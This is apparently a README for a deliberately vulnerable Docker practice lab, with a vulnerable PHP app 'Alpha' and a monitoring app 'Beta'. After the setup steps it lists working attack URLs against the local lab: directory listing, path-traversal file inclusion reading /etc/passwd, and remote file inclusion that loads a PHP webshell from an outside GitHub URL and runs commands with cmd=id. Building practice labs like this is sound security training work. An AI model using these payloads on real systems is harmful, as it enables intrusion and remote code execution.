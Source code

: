 # Alpha and Beta app

Alpha is a strong web app with minimum feature. And Beta is monitoring app for security purposes.

### Install app

* install docker-compose
* my docker-compose version
```
docker-compose version 1.29.2, build unknown
docker-py version: 5.0.3
CPython version: 3.9.2
OpenSSL version: OpenSSL 1.1.1l  24 Aug 2021
```
* clone this repository
* build instance docker ```sudo docker-compose build```
* create instance docker ```sudo docker-compose up -d```
* run script ```sudo bash start.sh```

### Alpha app

* **Alpha web page** - adjust IP address with your own Docker IP address
```
http://172.17.0.1/index.php
```
* **Directory Listing**
```
http://172.17.0.1/verysupersecret/
```
* **Local File Inclution**
```
http://172.17.0.1/index.php?file=../../../../../../../etc/passwd
```
* **Remote File Inclution**
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/phpinfo.php
```
* **Remote Code Execution** - need to trigger RFI first then add ```&cmd=id``` ```&cmd=whoami ```
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/simple.php&cmd=id
```

### Beta app

* **Beta web app**
```
http://172.17.0.1:8888/index.php
```
